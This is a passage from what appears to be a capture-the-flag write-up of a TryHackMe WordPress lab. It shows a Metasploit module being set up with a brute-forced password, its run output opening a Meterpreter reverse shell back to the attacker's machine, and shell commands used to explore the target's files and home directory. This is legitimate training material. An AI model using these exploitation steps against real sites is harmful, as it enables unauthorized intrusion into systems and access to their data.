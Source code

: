 ```
set PASSWORD REDACTED
```

```
set RHOSTS blog.thm
```

> A few things to note here:
> 
> I edit my _/etc/hosts_ file so I can refer to my target by name. That lets me set my `RHOSTS` to `blog.thm`, but you can just specify the IP address.
> 
> Note that the value for `PASSWORD` is redacted. You must substitute the brute-forced password here.
> 
> Lastly, check your `LHOST` value. Mine defaults to my local network IP address which won't allow the reverse shell to connect back. I set it using my TryHackMe VPN adapter name: `set LHOST tun0`
{: .prompt-info }

Run it!

```
run
```

```
[*] Started reverse TCP handler on 10.6.30.85:4444
[*] Authenticating with WordPress using kwheel:REDACTED...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.80.143
[*] Meterpreter session 1 opened (10.6.30.85:4444 -> 10.10.80.143:51572) at 2022-12-24 15:10:39 -0500
[*] Attempting to clean up files...

meterpreter >
```

## Post-Exploitation

We're in! We have a PHP reverse shell into the target.

```
meterpreter > shell
Process 1840 created.
Channel 1 created.
dir
hSteQAxeEn.php   wp-blog-header.php    wp-includes        wp-signup.php
index.php        wp-comments-post.php  wp-links-opml.php  wp-trackback.php
license.txt      wp-config-sample.php  wp-load.php        xmlrpc.php
readme.html      wp-config.php         wp-login.php
wp-activate.php  wp-content            wp-mail.php
wp-admin         wp-cron.php           wp-settings.php

whoami
www-data

ls /home
bjoel

cd /home/bjoel
ls -al
total 100
drwxr-xr-x 4 bjoel bjoel  4096 May 26  2020 .
```